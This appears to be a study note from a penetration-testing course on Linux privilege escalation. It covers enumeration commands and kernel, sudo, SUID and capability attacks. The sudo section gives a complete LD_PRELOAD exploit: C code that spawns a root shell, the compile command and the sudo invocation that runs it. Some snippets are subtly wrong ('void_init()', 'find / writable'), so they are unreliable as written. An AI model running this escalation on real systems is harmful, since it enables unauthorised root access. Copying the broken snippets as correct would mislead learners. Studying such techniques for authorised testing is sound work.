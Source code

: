 ```yaml
---
description: Seventeenth section in Jr Penetration Tester learning path.
---
```


# Linux Privilege Escalation

### Introduction

Privilege escalation is the act of moving from a low privilege account to a high privilege account using a vulnerability exploit, design flaw or configuration oversight. Privilege escalation is crucial because it allows you to gain administrative access to a system which can allow:

* Password resets
* Bypass of access controls
* Editing software configurations
* Enabling persistence
* Changing privileges of other users
* Execution of admin commands

### Enumeration

Enumeration is important in post-compromise situations, below are useful commands/locations:

* `hostname` : returns hostname of target, can provide info depending on setup e.g. device may be named SQL-PROD for a production SQL server.
* `uname -a` : print system info about the kernel being used by the system.
* `/proc/version` : procfs (proc filesystem) provides info about target system processes, /version will give info on the kernel version and additional data like whether a compiler is installed.
* `/etc/issue` : contains info about the OS but is easily changed
* `ps` : shows all running processes for current shell, will show PID, TTY (terminal type used by user), Time (amount of CPU time used by process), CMD (command or executable running)
* `ps -A` : all running processes
* `ps axjf` : view process tree
* `ps aux` : show processes for all users - (a) for all users, (u) for user that launched the process and (x) for processes not attached to a terminal
* `env` : show environment variables, the PATH variable may have a compiler or scripting language that can be leveraged
* `sudo -l` : list commands your user can run using sudo
* `ls` : list files
* `ls -la` : list files and show hidden files
* `id` : overview of users privilege and group memberships
* `/etc/passwd` : shows users on system
* `history` : shows earlier commands, rarely can have info like usernames and passwords stored
* `ifconfig` : shows network interface information
* `netstat -a` : show all listening ports and established connections
* `netstat -l` : list ports only in listening mode
* `netstat -at/-au` : show TCP or UDP respectively&#x20;
* `netstat -ano` : display all sockets, do not resolve hostnames and display timers
* `find` : search system for potential escalation vectors
* `find / writable -type d 2>/dev/null` : find world-writable folders

### Kernel Exploits

Exploit methodology is simple:

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of target
3. Run exploit

Although it appears simple, a failed kernel exploit can cause a system crash, it is always important to be careful. Before running kernel exploits you should fully understand what they do, some can cause irreversible system changes which cause issues later.

### Sudo Exploits (sudo -l)

Some systems may have the `LD_PRELOAD` environment option, this function allows any program to use shared libraries. If `"env_keep"` is enabled then a shared library can be generated which will be loaded and executed before a program is run. `LD_PRELOAD` will be ignored if the real user ID is different from the effective user ID. The steps can be summarised as:

1. Check for `LD_PRELOAD` (with `env_keep` option)
2. Write C code compiled as a share object (.so extension) file
3. Run program with sudo rights and `LD_PRELOAD` pointing to .so file

The C code which spawns a root shell is:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

This can be saved as `shell.c` and compiled with gcc into a shared object file:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

This can then be run with sudo specifiying the `LD_PRELOAD` option:

```
sudo LD_PRELOAD=/home/user/preload/shell.so find
```

This will then spawn a shell with root privileges.

### SUID Exploits

The command `find / -type f -perm -04000 -ls 2>/dev/null` will show files that have their SUID or SGID bit set. Best practice is then to compare this against GTFOBins binaries to see if an exploit is available.

### Capability Exploits

Capabilities help manage privileges at a granular level. For example, a binary can have its capability set to allow it to run a task as a higher privilege. The getcap tool can be used to list enabled capabilities with `getcap -r / 2>/dev/null`.
